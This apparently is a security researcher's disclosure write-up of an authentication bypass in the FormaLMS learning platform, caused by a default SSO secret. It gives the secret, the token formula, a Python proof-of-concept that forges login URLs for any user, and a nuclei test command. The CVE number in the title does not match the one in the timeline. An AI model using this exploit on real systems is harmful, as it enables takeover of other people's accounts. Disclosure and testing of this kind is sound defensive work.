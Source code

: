 ```yaml
---
title: "CVE-2023-4136 - FormaLMS The evil default value that leads to Authentication Bypass"
date: 2021-11-02
---
```


## Preface
As part of a recent research activity, we stumbled upon FormaLMS. The project is an open source Learning Management System built by forma.association and aimed at companies who want a learning platform for internal employees, partners, dealers and sellers.
The project is opensource and could be downloaded from the main website: formalms.org and the tested version is the 2.3.
Update: the exploit is working on version <= 2.4.4


## Responsible disclosure timeline
| Date	| Notes |
| ----  | ----- |
| 2021/10/02 | Vulnerability has been found |
| 2021/10/06 | Notification has been sent |
| 2021/10/21 | No answer. Sending second notification using the contact section of the website |
| 2021/11/02 | Public disclosure |
| 2021/11/09 | CVE-2021-43136 Assigned |



## Digging into the source
The application is written in PHP language and it uses custom routing logic to forward the requests to the specific controller. The architecture resemble the Model-View Controller one in a weird way and the requests are routed through the "front controller", which is the index.php file located in the root of the project.


## The routing mechanism
Once received, the front controller is responsible to parse the requested route via the r query string parameter, split the string by / and determine which controller and module to load (the green rectangle).
![Routing mechanism](/formalms/image-45.png)

A quick analysis on the `_homepage_base_` and `_homepagecatalog_base_` constants shows these values:
![Constants](/formalms/image-46.png)

So we can now reconstruct the routing mechanism:
- First part of the r parameter is the controller name (the red mark)
- Second part is the module name (green mark)
- Third part is the method name (orange mark)
- A "Controller" static suffix is appended at the end (yellow mark)

![MVC logics](/formalms/image-47.png)

## The authorization mechanism
While it is obvious that the routing mechanism allows every user to arbitrarily call any class, the authorization mechanism denies some actions to the administrative part of the application such as the `AdminrulesAdmController` file.

![ACL 1](/formalms/image-48.png)
![ACL 2](/formalms/image-49.png)
![ACL 3](/formalms/image-50.png)

So, in summary:
- The front controller, index.php, instantiate a new class based on the r input parameter and calls a constructor with the mvc name.
- The destination class, AdminrulesAdmController in this case, which extends the AdmController and is a subclass of the Controller class, calls a constructor with the mvc name and, afterwards, the init function
- The init() function of the "AdmController" is called and the checkRole() and checkPerms() are invoked based on the definition of the CORE constant, which is declared in various points of the code base.

## The vulnerability
While we had no luck trying to circumvent the authorization mechanism, one part of the index.php front controller caught my attention.
![front controller](/formalms/image-51.png)

Apparently, if the parameters login_user, time and token are passed to the query string, the application flows to a different location defined in the `_sso_` constant:
![sso constant flow](/formalms/image-52.png)


And, lastly, the part that clearly helped us to find the bug:
![bugged code](/formalms/image-53.png)

While it looks like that the developers were aware of this ugly default value ("orribile questo default" translates to "This is an horrible default value"), this was the part that motivated us to investigate further.


## Digging into the SSO function
Until now, we know that in order to access the sso functionality, the sso_token setting should be enabled.
The "sso" setting is present in the admin section of the website and, as shown in the screenshots above, it accepts a NULL value for the secret parameter.

![admin panel](/formalms/image-54.png)

## Exploiting the flaw
Knowing this, it is just a matter of sending an HTTP request on the index.php which contains:
- **login_user**: the target username
- **time**: the expiration of the session in epoch format. Adding some time will be useful to circumvent the expiration check
- **token**: calculated like the following:
```php
$recalc_token = strtoupper(md5($login_user . ',' . $time . ',' . $secret));
```
- **sso_secret**: the default value, which is: 8ca0f69afeacc7022d1e589221072d6bcf87e39c or, in some cases, empty if the value of SSO secret for the token hash is set to empty.


Following a simple PoC script that automates the process:​
```python
#!/usr/bin/env python
import sys
import time
import hashlib


secret = "8ca0f69afeacc7022d1e589221072d6bcf87e39c"

def help():
  print(f"Usage: {sys.argv[0]} username target_url")
  sys.exit()

if len(sys.argv) < 3:
    help()

user, url = (sys.argv[1], sys.argv[2])


t = str(int(time.time()) + 5000)
token = hashlib.md5(f"{user},{t},{secret}".encode()).hexdigest().upper()
final_url = f"{url}/index.php?login_user={user}&time={t}&token={token}"
print(f"URL with default secret: {final_url}")

token = hashlib.md5(f"{user},{t},".encode()).hexdigest().upper()
final_url = f"{url}/index.php?login_user={user}&time={t}&token={token}"
print(f"URL with empty secret: {final_url}")
```


And, finally, the bypass:
![bypass](/formalms/image-55.png)


## Nuclei template
Following a nuclei template, which could be useful for testing the vulnerability on single/multiple targets.
**Note**: the exploit uses blank value for the SSO Secret value, feel free to change it accordingly
The exploit needs environment variables in order to generate correct time in epoch format and token.
```sh
time=$(date -d "20 minutes" +"%s"); token=$(echo -n "admin,$time," | md5sum | cut -d ' ' -f 1);  ~/nuclei/v2/nuclei -u http://localhost:8085/formalms/ -t ~/nuclei-templates/vulnerabilities/formalms/formalms-auth-bypass.yaml -var login_user=admin -var time=$time -var token=$token -debug -v
```

